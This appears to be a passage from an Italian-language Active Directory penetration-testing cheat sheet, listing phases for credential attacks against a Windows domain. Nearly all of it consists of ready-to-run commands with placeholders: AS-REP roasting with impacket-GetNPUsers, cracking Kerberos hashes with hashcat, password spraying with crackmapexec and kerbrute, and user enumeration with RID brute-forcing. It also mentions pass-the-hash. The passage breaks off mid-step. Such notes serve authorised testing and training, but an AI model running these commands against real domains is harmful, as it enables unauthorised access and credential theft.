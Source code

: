 ```bash
impacket-GetNPUsers <DOMAIN>/ -no-pass -usersfile <USERS.txt> -dc-ip <IP>
```

```bash
hashcat -m 18200 <hashes.txt> <WORDLIST>
```

---

## Se trovo password (ma non utenti)

1. Sebbene poco probabile, provo un *Password Spraying* su lista di common users con ***crackmapexec*** o ***netxec***

```bash
crackmapexec smb <IP> -u <USERSNAMES.txt> -p <PASSWORD>
```

---

## Se trovo utenti ed una sola password

1. Eseguo un *Password Spraying* con ***crackmapexec*** o ***netexec***

```bash
crackmapexec smb <IP> -u <UTENTI.txt> -p <PASSWORD>
```

Possiamo anche usare ***kerbrute***

```bash
kerbrute passwordspray --dc <IP> -d <DOMAIN> <USERS.txt> <PASSWORD>
```

---

# FASE 2 - EXPLOITATION (and some more Enumeration)

## Ho ottenuto delle credenziali

1. Eseguiamo ***crackmapexec*** (o ***netexec***) per una enumeration più approfondita, al fine di scovare altri utenti del dominio, ed eseguiamo un *“pass-the-password”* attack*,* o **un “*pass-the-hash*” nel caso in cui non fossimo riusciti a crackare password e  NTLM sia v1 , utilizzando le credenziali acquisite su tutte le macchine del dominio per identificare i dispositivi nei quali abbiamo accesso

```bash
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --users
```

```bash
crackmapexec smb <IP> -u <USER> -p <PASSWORD> –users –-rid-brute
```

oppure
